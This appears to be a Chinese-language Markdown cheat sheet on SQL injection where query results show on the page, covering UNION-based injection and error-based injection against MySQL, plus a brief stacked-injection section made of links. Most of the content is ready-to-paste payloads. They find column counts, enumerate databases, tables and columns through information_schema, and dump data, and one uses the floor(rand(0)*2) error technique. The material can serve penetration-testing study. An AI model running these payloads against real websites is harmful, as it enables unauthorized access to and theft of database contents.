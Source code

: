 # 回显注入法--能在页面直接显示结果
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 UNION联合查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: union注入法前提要**知道列数**和**页面能回显**
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名加引号，推荐改为十六进制

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 报错查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 构造payload让信息通过错误提示回显出来
![](/assets/F959A1FB7211CB335A3944DE5CBA4FF1.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 经典报错函数（结合Burpsuite快速获取内容）
![](/assets/2DA57441F54D5F917232F998ACD62900.png)
![](/assets/7DF1248C5FA74AA8624787ECEBB8C368.png)
```sql
and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))) %23
select version()可替换 select table_name from information_schema.tables where table_schema=database() limit 0,1
```
![](/assets/22F086091F949BB64B59D97865EFE310.png)
![](/assets/26024E61529BC7DF606D3641DB676AAB.png)

**注意: [其他报错方式](https://www.waitalone.cn/mysql-error-based-injection.html)、报错返回会有32限制(采用substr(concat(内容),1,2)截取)**
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 堆叠注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 堆叠查询可以执行多条SQL语句，语句之间以分号(;)隔开
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[堆叠注入实战](https://blog.csdn.net/SouthWind0/article/details/82929895)、[各库堆叠注入](https://www.cnblogs.com/0nth3way/articles/7128189.html)、








